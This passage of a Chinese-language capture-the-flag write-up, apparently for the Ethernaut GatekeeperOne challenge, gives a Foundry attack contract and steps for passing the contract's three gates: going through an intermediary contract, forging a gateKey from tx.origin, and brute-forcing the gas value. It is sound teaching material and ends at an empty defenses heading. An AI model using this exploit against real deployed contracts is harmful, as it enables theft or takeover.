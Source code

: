 ```solidity
        vm.stopPrank();
    }
}

contract Attack is Test {
    GatekeeperOne instance;

    constructor(address fb) {
        instance = GatekeeperOne(fb);
    }

    // 构造 gateKey 并使用指定的 gas 调用 enter 函数
    function attack(uint256 gas) public {
        // 构造满足 gateThree 的 key
        uint16 origin_suffix = uint16(uint160(msg.sender));
        bytes8 gateKey = bytes8(uint64(origin_suffix)) | 0x1000000000000000;

        // 使用计算好的 gas 调用目标函数
        instance.enter{gas: 8191 * 10 + gas}(gateKey);
    }

    // 用于暴力破解 gas 值的函数
    function findGas() public {
        uint16 origin_suffix = uint16(uint160(msg.sender));
        bytes8 gateKey = bytes8(uint64(origin_suffix)) | 0x1000000000000000;
        
        for (uint256 i = 0; i < 8191; i++) {
            try instance.enter{gas: 8191 * 10 + i}(gateKey) {
                console.log("Found gas:", i); // 实验得出 i = 268
                return;
            } catch {}
        }
        revert("No gas match found!");
    }
}
```

### 关键攻击步骤

1.  **创建攻击合约**: 绕过 `gateOne` (`msg.sender != tx.origin`)。
2.  **构造 `_gateKey`**:
    *   获取 `tx.origin` 的低16位。
    *   将其构造成一个 `bytes8` 值，满足 `gateThree` 的所有 `require` 条件。
3.  **暴力破解 `gas`**:
    *   编写一个循环，尝试不同的 `gas` 值来调用 `enter` 函数。
    *   在 `Foundry` 测试中，我们可以通过 `try/catch` 捕获失败的调用，直到找到一个成功的 `gas` 值（例如，`gas` 偏移量为 `268`）。
4.  **发起攻击**: 使用找到的 `gas` 值和构造的 `_gateKey` 从攻击合约中调用 `enter` 函数。

## 🛡️ 防御措施
